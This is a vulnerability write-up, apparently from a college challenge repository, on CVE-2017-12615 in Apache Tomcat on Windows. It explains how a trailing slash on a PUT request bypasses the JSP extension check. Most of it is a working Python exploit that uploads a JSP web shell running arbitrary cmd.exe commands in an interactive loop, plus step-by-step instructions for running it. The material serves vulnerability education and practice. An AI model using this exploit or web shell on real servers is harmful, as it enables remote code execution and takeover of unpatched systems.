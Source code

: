 <div align="center"><h1>CVE-2017-12615 REPORT</h1></div>

## About the vulnerability

When running Apache Tomcat on Windows with HTTP PUTs enabled (e.g. via setting the readonly initialisation parameter of the Default to false) it was possible to upload a JSP file to the server via a specially crafted request. This JSP could then be requested and any code it contained would be executed by the server.

**On versions:** Apache Tomcat 7.0.0 to 7.0.69

**Pre-requisites:** set readonly init parameter of Default to false i.e enable HTTP PUTs.

## Explanation

Apache Tomcat should not allow upload of file files .jsp extension variants.

`PUT /evil.jsp` should give an error.

But the extension check is bypassed when a '/' is added to the end of the url.

`PUT /evil.jsp/` triggers the vulnerability.

This happens because `file()` method in `VirtualDirContext.java` does not validate the extension correctly on appending '/' to the url.

Passing any jsp code by HTTP PUTs request to the Tomcat Server, on triggering the vulnerability, would lead to RCE on the server.

## Exploit

```
#!/usr/bin/python
import requests

targetURL = input('target url\n') #Url of the the Apache Tomcat Server

def cmdshell():
    command = input('$> ') #command to run at the target
    endpoint = 'http://' + targetURL + '/payload.jsp'
    payload = '''
    <%@ page import="java.util.*,java.io.*"%>
    <%
    String cmd = "''' + command + '''";
    Process p;
    p = Runtime.getRuntime().exec("cmd.exe /C " + cmd);
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
        out.println(disr);
        disr = dis.readLine();
    }
    %>
    ''' #Payload for RCE in .JSP format
    r = requests.put(endpoint+'/', data=payload) #Sending PUTs request with payload
    r = requests.get(endpoint) #For seeing the output of RCE
    print(r.content.decode("utf-8")) #decode response with UTF-8

while True:
    cmdshell()

```
[Exploit on github](https://github.com/yash-bansod/Techmeet21-SAPTANG/blob/chall2/chall2/exploit_CVE-2017-12615.py)

This exploit was tested on Apache Tomcat 7.0.69 and allows RCE on the Apache Tomcat Server.

### How to Run

#### Installing a python virtual environment
```bash
$ python3 -m venv env

$ source env/bin/activate
```
#### Adding the python dependencies

```bash
$ pip3 install requests
```

#### Running the exploit
```bash
$ python3 exploit_CVE-2017-12615.py
```


## Proof of Concept

[PoC video](https://www.youtube.com/watch?v=uAx89r8cYFU)
